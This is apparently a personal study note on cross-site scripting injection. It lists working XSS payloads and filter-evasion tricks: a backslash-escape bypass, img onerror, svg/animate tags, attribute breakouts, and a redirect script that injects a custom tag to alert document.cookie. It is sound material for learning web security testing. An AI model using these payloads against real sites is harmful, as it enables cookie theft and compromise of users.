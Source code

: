 ### Injections and Payloads

Some payloads and methods to inject payloads.
- If the spaces cause errors, remove them.
- Try using all special characters to see which ones work: `< > " ' \ / ;`
- `iframes` can be used to create attacks that operate without user input.

Sometimes, trying to inject special characters like `"` gets escaped by the addition of a backslash `\`.
- Add an extra backslash `\` such that the one added by the application gets escaped by the one we added.
```
\" alert(1)
```

###### Injecting in HTML Tags

```
<img src=1 onerror=alert(1)>
```
- If tags and events are blocked, use the [XSS Cheat Sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet) and try all the tags and events there using [[Burp Suite]] Intruder.

We can also create custom tags of our own.
```
<script> location = "https://vulnerable-website/search= <mins id=omar onfocus=alert(document.cookie)> tabindex=1 #omar"; </script>
```
- This script locates to the vulnerable website and injects in the `search` parameter a custom tag that alerts the cookie.
- The `onfocus` event works when the browser TABs onto the tag, so we use `tabindex` to automatically tab once to it, since we have the `#omar` that goes to it.

The `svg` tag allows for other tags inside it, which can be used to craft more complex exploits where some tags are blocked.
``` HTML
<svg> <animatetransform onbegin=alert(1)> </svg>

<svg> 
  <a>
    <animate attributeName='href' values='javascript:alert(1)'></animate>
    <text x='10' y='10'> Click </text>
  </a> 
</svg>
```

###### Injecting in HTML Attributes

Terminate the attribute, then close the tag, then add a new tag.
```
mins"> <svg onload=alert(1)>
```

This terminates the tag, but doesn't add the closing quotes and angle brackets at the end such that the injected attribute's own ones are used, ensuring proper syntax.
```
"> <body onload="alert()
```

